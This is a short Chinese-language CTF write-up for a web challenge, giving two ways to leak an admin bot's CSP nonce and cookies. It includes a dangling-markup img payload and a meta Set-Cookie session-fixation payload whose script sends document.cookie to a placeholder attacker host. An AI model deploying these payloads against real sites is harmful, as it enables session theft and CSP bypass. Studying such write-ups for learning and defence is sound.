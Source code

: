 ## wanna hack him?

这题有两种解法。

### 解法一

利用`dangling markup attack`。传入一个未闭合的标签，来把后面内容通过请求直接发出去，因为bot的版本是Chrome60所以可以直接用一个比较常见的payload

```
<img src='http://yourhost/?key=
```

这样因为`<img>`标签里的`src`未闭合所以会把后面的html代码也当做`src`属性的一部分直到遇到下一个单引号，所以我们可以拿到管理员的`nonce`
![](https://i.imgur.com/vwf5JNV.png)

拿到nonce后就是常规XSS操作了。

### 解法二

因为这题的`nonce`是根据`session`生成的，所以我们可以用`<meta>`标签来`Set-Cookie`，把bot的`PHPSESSID`设置成我们的，这样bot的`nonce`就和我们的一样。可以通过`preview.php`拿到我们的`nonce`。

payload:
```
<meta http-equiv="Set-Cookie" content="PHPSESSID=yoursession; path=/">
<script nonce="yournonce">(new Image()).src='http://yourhost/?cookie='+escape(document.cookie)</script>
```

![](https://i.imgur.com/sjLglKQ.png)

关注我blog接下来的详细分析: http://math1as.com/
